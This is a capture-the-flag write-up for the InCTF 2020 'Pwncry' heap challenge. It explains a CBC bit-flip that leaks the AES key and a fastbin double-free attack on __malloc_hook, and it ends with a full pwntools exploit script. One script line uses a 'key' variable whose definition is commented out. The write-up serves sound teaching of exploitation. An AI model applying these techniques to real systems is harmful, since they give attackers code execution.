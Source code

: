 ```yaml
---
title: Pwncry - InCTF Internationals 2020
date: 2020-08-09 19:30:00
author: rudyerudite
author_url: https://twitter.com/rudyerudite
categories:
  - Pwn 
  - Linux
  - ELF
tags:
  - InCTFi
---
```


**tl;dr**
+ Passing corrupted ciphertext to get the symmetric key leak
+ Fastbin link corruption
+ Exploiting double free and UAF in the heap

<!--more-->
**Challenge points**: 964
**No. of solves**: 10
**Challenge author**: [rudyerudite](https://twitter.com/rudyerudite)

## Challenge description

The description for this challenge says, 
***Sail through Hade's abode with your double-edged sword!***

Further, the challenge was developed and tested on an environment with `libc-2.23.so` and `OpenSSL1.0.2g` for encryption functionality. In the following writeup, we will reference the functions used for encryption as `Enc(plaintext)` and decryption function as `Dec(ciphertext)`.

## Understanding functionality

Before getting our hands dirty, executing `checksec` tells us about the mitigations enabled in the binary:
```bash
Canary                        : Yes
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Full
```

The challenge performs the function of encrypting the user's input and storing the ciphertext in user-allocated heap chunks (option 1) and deletes them on the user's request (option 3). A user can allocate a maximum of 9 chunks.

```bash
IV:aed9e7cf03014684820330cd5099a511
Behold young mortal! Welcome to Hade\'s land
Enter 3 letter-code :aaa
Encrypted code : 208d1f2a5bcf8e4242a4cd5d48e02d3d

Enter your vault ID:1
Behold young mortal! Welcome to Hade\'s land
1. Conceal ya spell
2. Change code
3. Recover ya magic
4. Quit ya quest
```

The player can store a plaintext on the .bss section and modify it later by sending the ciphertext (option 2). The key and the IV used for `AES-CBC encryption` are stored in the .bss section. The IV is generated randomly and a static key used (read from a file) in every session. 

## Exploitation

Deletion of a chunk causes a `double-free` and also there exists a `UAF` which can help us to get the `libc leaks` easily by freeing, allocating, and reading the same Unsorted Bin chunk.
To overwrite the pointer the attacker must get the `symmetric key` used in the block cipher otherwise the encryption functionality would corrupt the user's payload when storing it in memory. For getting a way out of this we need `symmetric key` leaks.

Now we will use option 3 here. As the binary prints the name we can leak the key too! For that we need to bypass the `remove_padding` function. Why? Check out the snippet:

```bash
if(end<=16) 
  { printf("padding len %d\n", end); 
    for(int i=0; i<end;i++) 
        *(data + (i+data_len)) = "\x00"; 
    return; 
  }
```

To avoid the replacement with NULL bytes, the attacker must craft a ciphertext payload such that the last byte of the decrypted ciphertext is a negative number. In doing so, the naive padding function does not operate correctly (retaining the padded bytes). The intended way for this was to use the [CBC bit-flipping attack](https://masterpessimistaa.wordpress.com/2017/05/03/cbc-bit-flipping-attack/) to modify the last byte of the initial ciphertext (Encrypted code). This leads to leaking out the `symmetric key` as there is no null-byte termination for the naive `printf()`. 

After leaking our the key, the attacker must send the Dec(payload) and use the given IV and leaked key for the operation. As, `Enc(Dec(PT)) == Dec(Enc(PT))` we can now craftily pass our input such that the intended payload is not corrupted by the encryption function.

After this, the player can use the double free and overwrite the forward pointer of the fastbin chunk with a pointer near `__malloc_hook` such that the next pointer points to value `0x7F` (satisfying the size check of fastbin). A detailed explanation for the fastbin corruption attack can be found [here](https://vigneshsrao.github.io/memoheap/). Mind you, the fake address or the attack payload must be sent to the binary as `Dec(Fake_addr_payload)`. The content is then stored as `Enc(Dec(Fake_addr_payload))` which is `Fake_addr_payload` in the heap chunk. 

We can get a chunk allocated at this address after invoking a couple of `malloc()` functions. We can then overwrite `__malloc_hook` with a gadget that executes `system()` on the next allocation.

## Exploit code

```python
from pwn import *
from Crypto.Cipher import AES
r = process("./chall",env = {"LD_PRELOAD" : "./libc-2.23.so"})
#r = remote('35.245.143.0',1337)
#key = "5949eebb28e0df11feac0b73bdb4dba2".decode("hex") <-- hardcoding actual key on the server

def decrypt(payload,IV,key):
    obj = AES.new(key, AES.MODE_CBC,IV)
    ques = obj.decrypt(payload)                        #encrypt the string and send it 
    return ques.encode("hex")

def vault_ID(id):
    r.sendlineafter("Enter your vault ID:",str(id))

def conceal_spell(pt,size):
    r.sendlineafter("quest\n",str(1))
    r.sendlineafter("size:\n",str(size))
    r.sendlineafter("plaintext:",pt)
    r.recvuntil("concealed!\n")
    ct = r.recvline().strip().decode("hex")
    print("Ciphertext: {}".format(ct.encode("hex")))
    return ct

def delete():
    r.sendlineafter("quest\n",str(3))

def change_name(ct,fake_iv):
    r.sendlineafter("quest\n",str(2))
    r.sendlineafter("Enter encrypted name:",ct)
    r.sendlineafter("Enter IV(16 bytes):",fake_iv)

def exit_(payload):
    r.sendlineafter("quest\n",str(4))
    r.sendline(payload)

#getting key leaks
r.recvuntil("IV:")
IV =  r.recvline().strip().decode("hex")
r.sendlineafter('letter-code :','aaa')
r.recvuntil("code : ")
ct = r.recvline().strip().decode("hex")
vault_ID(1)
fake_iv = ""
ct_p = ct[15]
ct_p = chr(ord(IV[15])^ord('\xff')^ord('\x0d'))
fake_iv = IV[:15]+ct_p

change_name(ct.encode("hex"),fake_iv)
print(r.recvuntil("new name:"))
r.recv(16)
key_leak = r.recv(16)
r.recv(16)

log.success("Key leaked = " + str(key_leak))
log.info("key orig = " + key.encode("hex"))
print(key_leak == key)
print(key.encode("hex"))

# unsorted bin leaks
vault_ID(1)
ct = conceal_spell('a'*0x8,0x70)
vault_ID(2)
ct = conceal_spell('a'*0x8,0x50)
vault_ID(1)
delete()
vault_ID(3)
libc_ptr = u64(conceal_spell('\x00',0x70).ljust(8,'\x00'))-0x3f80-0xbf8
#io_wide = libc_ptr+0x4aed
libc_base = libc_ptr-0x3c0000
log.info("libc_base {}".format(hex(libc_base)))
one_gadget = libc_base+ 0xf02a4

#exploiting double free
vault_ID(4)
ct = conceal_spell('b'*0x8,0x50)
vault_ID(2)
delete()
vault_ID(4)
delete()
vault_ID(2) #2->4->2
delete()
vault_ID(5)

#overwriting forward pointer of fastbin 
target = libc_base + 0x3c4aed
payload = p64(target)+'\x08'*8
k = decrypt(payload,IV,key_leak)
conceal_spell(k.decode("hex"),0x50)
vault_ID(6)
conceal_spell("c"*0xf,0x50)
vault_ID(7)
conceal_spell("c"*0x8,0x50)
vault_ID(8)

#overwriting __malloc_hook with one_gadget
payload = 'a'*19 + p64(one_gadget)+'\x05'*5
print(len(payload))
k = decrypt(payload,IV,key_leak)
print("sending...{}".format(k.encode("hex")))
conceal_spell(k.decode("hex"),0x50)

#triggering system()
vault_ID(9)
r.sendline(str(1))
r.sendline(str(0x20))
r.sendlineafter("plaintext:",'\x00')

r.interactive()
```

